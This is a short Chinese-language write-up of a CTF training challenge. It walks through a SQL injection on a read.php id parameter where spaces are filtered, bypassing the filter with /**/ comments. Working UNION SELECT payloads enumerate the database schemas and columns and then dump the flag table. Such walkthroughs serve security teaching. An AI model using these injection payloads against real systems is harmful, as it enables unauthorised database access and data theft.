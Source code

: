 ![image.png](https://raw.githubusercontent.com/MarchPhantasia/pic/main/hexoblog/20240806233150.png)
只过滤了空格？
可以用 `/**/` 过空格

```sql
http://train2024.hitctf.cn:26640/read.php?id=-1/**/UNION/**/SELECT/**/1,group_concat(schema_name)/**/FROM/**/information_schema.schemata;
```
-1 确保 id 是搜寻不到的，这个 select 同时需要选择两个数据才可以，这代表 union 之前的语句也是索引了两个关键字，这一点是 union 关键字的特性。


写了一个转空格的脚本，获得表明为 flag
![image.png](https://raw.githubusercontent.com/MarchPhantasia/pic/main/hexoblog/20240806234322.png)

``` url
http://train2024.hitctf.cn:26640/read.php?id=-1/**/union/**/select/**/1,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema=database()
```


```
http://train2024.hitctf.cn:26640/read.php?id=-1/**/or/**/1=1/**/union/**/select/**/group_concat(flag),group_concat(flag)/**/from/**/flag
```